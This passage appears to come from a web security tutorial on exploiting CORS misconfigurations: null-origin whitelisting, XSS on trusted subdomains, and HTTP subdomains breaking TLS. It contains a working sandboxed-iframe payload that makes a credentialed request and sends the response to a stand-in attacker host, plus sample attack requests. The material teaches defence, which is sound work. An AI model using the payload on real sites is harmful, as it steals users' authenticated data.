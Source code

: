 In this situation, an attacker can use various tricks to generate a cross-origin request containing the value `null` in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed `iframe` cross-origin request of the form:

<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; req.send();  function reqListener() { location='malicious-website.com/log?key='+this.responseText; }; </script>"></iframe>

**LAB**

APPRENTICE[CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)

### [Exploiting XSS](https://portswigger.net/web-security/cross-site-scripting/exploiting) via CORS trust relationships

Even "correctly" configured CORS establishes a trust relationship between two origins. If a website trusts an origin that is vulnerable to cross-site scripting ([XSS](https://portswigger.net/web-security/cross-site-scripting)), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

Given the following request:

```
GET /api/requestApiKey HTTP/1.1 Host: vulnerable-website.com Origin: https://subdomain.vulnerable-website.com Cookie: sessionid=...
```

If the server responds with:

```
HTTP/1.1 200 OK Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com Access-Control-Allow-Credentials: true
```

Then an attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, using a URL like:

```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

### Breaking TLS with poorly configured CORS

Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:

```
GET /api/requestApiKey HTTP/1.1 Host: vulnerable-website.com Origin: http://trusted-subdomain.vulnerable-website.com Cookie: sessionid=...
```

The application responds with:

```
HTTP/1.1 200 OK Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com Access-Control-Allow-Credentials: true
```
